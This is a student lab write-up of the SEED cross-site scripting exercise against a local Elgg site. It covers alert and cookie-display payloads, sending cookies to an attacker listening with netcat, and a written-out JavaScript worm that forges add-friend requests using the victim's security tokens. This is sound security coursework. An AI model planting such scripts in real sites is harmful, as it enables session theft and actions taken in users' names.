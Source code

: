 # Setup
We start this lab by following the instructions in the guide:

Add the lines to the /etc/hosts file (actually, we only need to add 10.9.0.5 www.seed-server.com, as the rest are already there);
Setup the docker containers using the alias dcbuild and launch them using dcup.

# Lab Tasks

## 3.1 Preparation: Getting Familiar with the "HTTP Header Live" tool

In this preparatoty task we just follow the instructions given in the Guidelines section 5.1.

## 3.2 Posting a malicious message to display an alert window

For this task, we chose to use the Samy profile. By pasting the suggested javascript code in the "brief description" field, as input is not sanitized, everytime any other user visits the profile, an alert pop-up will be displayed with the message "XSS". With this we can start to play around with the XSS attack and understand its foundations.

Using the folloowing code in Samy's brief description field:

![picture 1](images/3dcd07650562573d5b9f75ad1a2286438f2f57b09eaf6153d336c356df288f96.png)  

When acessing Samy's profile while logged in as Alice:

![picture 2](images/418e198f33de4550fc93567ba2b5bbfcf711ac6b2ceecca75f06d6d67286b741.png)  

## 3.3 Posting a malicious message to display cookies

By changing the argument of the alert window that we created with the javascript of the last task, we can display important information about the site, user, session, etc. In this case, we change the messagae 'XSS' to __document.cookie__, which will result in the display of the cookies of the document in the pop-up alert.
However, only the user viewing the malicious profile will be prompted with this message.

Using the folloowing code in Samy's brief description field:

![picture 3](images/9a9b3724b39556760283093abc98468a6d3780293f8cd40bba05ef83883178a7.png)  

When acessing Samy's profile while logged in as Alice:

![picture 4](images/b03767a84a6801e8e5da03b41793ad881c9a4d1cbd2b9eb138070b9e2bbd399f.png)  

## 3.4  Stealing cookies from the victim's machine

In this task, we go a step further and make the cookies be sent to the attacker, instead of only being displayed to the user.  To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.

Using the folloowing code in Samy's brief description field:

![picture 5](images/eadb3a07dfe4655396ed2fdaaede269a12545eea46b5e9bf6b097f1d50c764b1.png)  

Using the netcat command with the recommended options, we can listen for any requests made from users that visited our profile:

When we access Samy's profile while logged in as Alice, for example, we can see that the cookies are sent to us via the request:

![picture 6](images/9576c1dc98a20c942b2bb21842b85a3abc1f4e6de76ff9b125aa2e5fc68464f5.png)  

## 3.5  Becoming the victim's friend

In this task, our objective is to write a worm that adds Samy as a friend of any user that visits the malicious profile.

Our malicious javascript file must forge an HTTP request, so the first step is to add Samy as a user normally, and analyze the request that is sent, so we can later replicate it. To do this, we use the extension HTTP Header Live.

![picture 7](images/2b06a11604a974bccaae38b19d9e2ea3ee0e1b194367fb3dbf56304c90a9733f.png)  

The full request URLis: 
```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669477299&__elgg_token=N1grzJfcHfWAhbkLgzsmjw&__elgg_ts=1669477299&__elgg_token=N1grzJfcHfWAhbkLgzsmjw
````

Using this information, we can now write our worm in the file __friend_worm.js__:

```javascript
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="/action/friends/add?friend=59" + ts + token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```

When we place this code in Samy's about me field, and access his profile while logged in as Alice, we can see that Alice is added as a friend of Samy:

![picture 8](images/888f5500d41b79bc6119563608c3540f98ae361737d207d997ecb35ab44847d1.png)  
![picture 9](images/10b5469a11b2310b8dd5b8128daa70beb167388c3c9ffa664c3167bf68749586.png)  
![picture 10](images/e7a9c15cf613e509bbec44cc7600287c97058b9f711e4890dfb37e8677e1ec6e.png)  
![picture 11](images/6ed8a3d7228eedb6d7ce8e47f7a5fbf3fb3477d28f32b213fbe6e8588e079fc5.png)  

__Questions:__

1. The numbered lines are used to authenticate the user when the request is made. The security tokens are unique to each user and are used to prevent other users to make requests in their name. Using this, our forged request will be accepted by the server.

2. No, if the application only provided the Editor mode for the "About me" field, an attack would not be successful, as the Editor mode filters and encodes any HTML special characters and tags - input sanitization. This way we are not able to inject our script into the profile page.


# Group 7, 26/11/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt

